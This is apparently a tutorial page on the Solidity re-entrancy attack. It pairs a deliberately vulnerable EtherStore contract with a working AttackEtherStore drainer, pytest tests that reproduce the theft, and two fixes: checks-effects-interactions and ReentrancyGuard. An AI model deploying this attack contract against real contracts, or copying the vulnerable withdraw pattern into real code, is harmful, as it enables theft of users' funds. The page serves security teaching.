

# Re-entrancy

### Description

A re-entrancy exploit happens when one contract executes an external call to another contract that makes a recursive call back to the original function, causing interruption of the state transition. That allows the attacker to execute withdrawal again and again until all the funds are available drained. The simplest and most famous example of this attack is `EtherStore` contract that allows depositing and withdrawing funds.

The issue there is on line 15. The function `withdraw` sends ether to the sender via `msg.sender.call{value: bal}("")`:

```solidity title=/contracts/reentrancy/EtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStore.sol sourceClassName=source-code-link
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        // highlight-next-line
        (bool sent, ) = msg.sender.call{value: bal}("");

        require(sent, "Transfer failed.");

        balances[msg.sender] = 0;
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}
```

And our sender could be the following `Attack.sol` malicious contract that decided to withdraw again during the payout fallback process on line 19:

```solidity title=/contracts/reentrancy/AttackEtherStore.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/AttackEtherStore.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IEtherStore {
    function deposit() external payable;

    function withdraw() external;
}

contract AttackEtherStore {
    IEtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = IEtherStore(_etherStoreAddress);
    }

    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            // highlight-next-line
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }
}

```

Please refer to the following diagram to understand the attack sequence step by step. Note, I used John just for a display purpose here.



### How to test

Both contracts could be tested locally using [brownie](https://eth-brownie.readthedocs.io/en/stable/) tools. It's pretty easy to run a unit test, following the attack sequence to reproduce the malicious behavior. The following unit test shows how exploiting the vulnerability the attack contract balance increases its balance:

```python title=/tests/reentrancy/test_ether_store_attack.py sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L12
import pytest
from brownie import exceptions
from scripts.reentrancy.ether_store.deploy_and_attack import (
    deploy_attack,
    deploy_ether_store,
    deploy_ether_store_fixed,
)
from scripts.utils import get_attacker_account, get_user_account
from web3 import Web3

def test_ether_store_attack_successful():
    # Deploy EtherStore smart contract
    ether_store = deploy_ether_store()

    # Initialize a user account
    user_account = get_user_account()
    deposit_amount_eth = 10
    value_wei = Web3.toWei(deposit_amount_eth, "ether")

    # User deposits 1 ether to EtherStore
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)

    # Assert that EtherStore balance now is 10 ETH
    assert ether_store.balanceOf() / 10**18 == 10

    # Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # Assert that Attack contract balance is 0 ETH
    assert attack_contract.balanceOf() / 10**18 == 0

    # Call `attack` function of Attack contract
    attack_tx = attack_contract.attack(
        {
            "from": get_attacker_account(),
            "value": Web3.toWei(1.5, "ether"),
        }
    )

    attack_tx.wait(1)

    # Assert that EtherStore balance now is 0 ETH
    assert ether_store.balanceOf() / 10**18 == 0

    # Assert that Attack contract balance is 11.5 ETH
    assert attack_contract.balanceOf() / 10**18 == 11.5

...
```


### How to fix

#### - Apply [check-effects-interaction](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#re-entrancy) pattern

```diff title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L16
function withdraw() public {
    uint256 bal = balances[msg.sender];
    require(bal > 0);

+   balances[msg.sender] = 0;

    // highlight-next-line
    (bool sent, ) = msg.sender.call{value: bal}("");

    require(sent, "Transfer failed.");

-   balances[msg.sender] = 0;
}
```


The send call is moved to the end of this function. This wouldn't prevent executing the `withdrow` function again by the attacker, but its balance is already 0. So the money transfer would not happen because of the `require(bal > 0)` check.


#### - Use Re-entrancy guard

The re-entrancy guard will explicitly reject any re-entrancy request. One of the most common implementations of the ReentrancyGuard is from [OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol). Also, you could have one implemented by yourself to avoid dependencies.

```solidity {5,7,11} title=/contracts/reentrancy/EtherStoreFixed.sol sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol#L4

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStoreFixed is ReentrancyGuard {

    ...

    function withdraw() public nonReentrant {
        ...
    }
    ...

```

### Demo

The fixed version of the [`EtherStoreFixed`](https://github.com/kkateq/solidity-hacks/blob/main/contracts/reentrancy/EtherStoreFixed.sol) contract could be tested the same way. However, now the test should verify that re-entrancy into `withdraw` fails:

```python title=/tests/reentrancy/test_ether_store_attack.py#L51 sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/reentrancy/test_ether_store_attack.py#L51
...

def test_ether_store_attack_failed():
    # 1. Deploy EtherStore smart contracts
    ether_store = deploy_ether_store_fixed()
    user_account = get_user_account()
    deposit_amount_eth = 10

    value_wei = Web3.toWei(deposit_amount_eth, "ether")
    tx = ether_store.deposit({"from": user_account, "value": value_wei})
    tx.wait(1)
    print(
        f"Account {user_account.address} has deposited {deposit_amount_eth} ETH to EtherStore!"
    )
    print(f"Ether store balance {ether_store.balanceOf()/10**18} ETH")

    # 2. Deploy Attack contract
    attack_contract = deploy_attack(ether_store.address)

    # 3. Call `attack` function of Attack contract
    #  highlight-next-line
    with pytest.raises(exceptions.VirtualMachineError):
        attack_tx = attack_contract.attack(
            {
                "from": get_attacker_account(),
                "value": Web3.toWei(1.5, "ether"),
            }
        )

        attack_tx.wait(1)
...
```


**Thank you for reading and good luck with building secure blockchain!**